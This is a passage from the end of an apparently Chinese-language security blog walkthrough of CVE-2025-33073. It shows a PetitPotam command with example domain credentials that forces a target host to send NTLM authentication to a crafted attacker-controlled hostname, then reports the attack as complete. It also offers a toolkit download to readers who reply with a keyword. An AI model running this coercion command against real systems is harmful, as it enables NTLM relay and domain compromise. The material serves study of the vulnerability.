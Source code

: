 6.   
强制目标主机发起 NTLM 认证。  

```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El5omDmUWIhOEP9uPibfBtvkeHfWyNk5tEYBdOiawhibCTn6xDibSOKwcumQ/640?wx_fmt=png&from=appmsg "")  
  
7.   
攻击完成。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2EljPh2GDQnJ6pmUcObLoxnrU8ZyWvtzW8VzozwicMwL46tQiaNP4JrnTEA/640?wx_fmt=png&from=appmsg "")  
  
0x05   
Windows 端口占用问题  
  
  
参考资料  
  
跟前面差不多，就不赘述了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElG9dDVFvaPEjG0fXuc7sjnicoicslXqhoTwnW3uvkwpYa2mBwYGSVeIoA/640?wx_fmt=png&from=appmsg "")  
  
参考链接  
  

```
https://mp.weixin.qq.com/s/NrGyltW-f8a3Zqr0-4oYnw
```

  
  
  
*  
  
后台回复“CVE-2025-33073”获得工具集下载地址  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rA9dDxDOarQvwxWqIZkXL6ibTEBOB4hNhtuJcQcLM3f3VKllE3RmlNIx2Tz5Djg4yptIxV5ibhUgDNEvFW6GZfQQ/640?wx_fmt=jpeg "")  
  
  
  
  
